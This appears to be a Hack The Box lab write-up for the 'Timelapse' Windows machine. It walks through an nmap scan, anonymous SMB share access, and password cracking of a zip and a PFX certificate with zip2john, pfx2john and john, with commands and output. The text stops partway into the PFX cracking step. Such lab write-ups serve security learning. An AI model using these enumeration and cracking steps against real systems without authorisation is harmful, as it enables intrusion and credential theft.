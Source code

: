 # Box: Timelapse
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.227.105 -T4  -v -p-```

```
Nmap scan report for 10.129.227.105
Host is up (0.24s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-26 05:11:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233a19945040859013fb9c5e4f691c3
|_SHA-1: 5861acf776b8703fd01ee25dfc7c9952a4477652
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2023-09-26T05:13:28+00:00; +7h59m58s from scanner time.
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
64129/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m57s, deviation: 0s, median: 7h59m57s
| smb2-time: 
|   date: 2023-09-26T05:12:52
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   279.92 ms 10.10.14.1
2   280.01 ms 10.129.227.105

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 25 22:13:37 2023 -- 1 IP address (1 host up) scanned in 406.16 seconds
```
From our nmap scan we have quite a number of open ports. Our enumeration today will actually be focused on the port running the smb service, that is, port 445, also the port running the http service, that is, port 5986.




# Enumeration (Port 445)

Lets start out by checking the shares available on the smb server

command:```smbclient -L 10.129.227.105```

Since we have no password just hit the ```Enter``` key

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Timelapse]
└─$ smbclient -L 10.129.227.105      
Password for [WORKGROUP\bl4ck4non]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.227.105 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We have 6 shares available on this server. The most interesting one out of these shares is the sharename ```Shares```

Lets connect to this sharename to see what we have there

command:```smbclient //10.129.227.105/Shares```

Since we have no password just hit the ```Enter``` key

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Timelapse]
└─$ smbclient //10.129.227.105/Shares
Password for [WORKGROUP\bl4ck4non]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 16:39:15 2021
  ..                                  D        0  Mon Oct 25 16:39:15 2021
  Dev                                 D        0  Mon Oct 25 20:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 16:48:42 2021

                6367231 blocks of size 4096. 1286468 blocks available
smb: \> 
```
Cool, we can now view the files avaiable on the sharename ```Shares``` on the smb server.

Navigating to the ```Dev``` directory, there's a zip file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c2700dea-b95a-4e51-9e85-e4a85d49bb14)

Lets download this file to our machine by using the ```get``` command.

command:```get winrm_backup.zip```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80b5ad2e-52d3-4328-8b34-2a5e76bfeee4)

Good. Now we can try to unzip the file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/31d9728c-c538-452f-9a30-e5c15afa25f1)

A password is required but we don't have one. 

Well, I called john already and he said he will be sending one of his brothers, ```zip2ohn```.

Using ```zip2john``` we'll try to generate a hash that can be cracked with ```john```

command:```zip2john winrm_backup.zip > winrm.txt```
command:```john winrm.txt  --wordlist=/home/bl4ck4non/Documents/rockyou.txt```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Timelapse]
└─$ zip2john winrm_backup.zip > winrm.txt
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Timelapse]
└─$ john winrm.txt  --wordlist=/home/bl4ck4non/Documents/rockyou.txt                                     
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:01 DONE (2023-09-25 22:48) 0.9259g/s 3216Kp/s 3216Kc/s 3216KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
So we got the password to be ```supremelegacy```. Now lets unzip

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Timelapse]
└─$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Timelapse]
└─$ ls -l legacyy_dev_auth.pfx 
-rwxr-xr-x 1 bl4ck4non bl4ck4non 2555 Oct 25  2021 legacyy_dev_auth.pfx
```
cool the password worked and we got a ```PKCS#12``` file.

For those who don't know about ```PKCS#12``` file, it is a cryptographic file format that typically contains both a digital certificate and its associated private key. These files are often used for securing sensitive information and establishing secure connections, such as in SSL/TLS certificates for web servers.

To access this file we can use the ```openssl``` command

command:```openssl pkcs12 -info -in legacyy_dev_auth.pfx```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/90cff726-3689-4bb6-afa9-d3519ba43540)

oops, a password is required. 

I called  john again but he wasn't picking his calls (he probably thinks I am disturbing him). So, I called one of his brothers ```pfx2john```

Using ```pfx2john``` to get the hash and then using john to crack the hash

command:```pfx2john legacyy_dev_auth.pfx > legacyy.txt```
command:```john legacyy.txt  --wordlist=/home/bl4ck4non/Documents/rockyou.txt```
























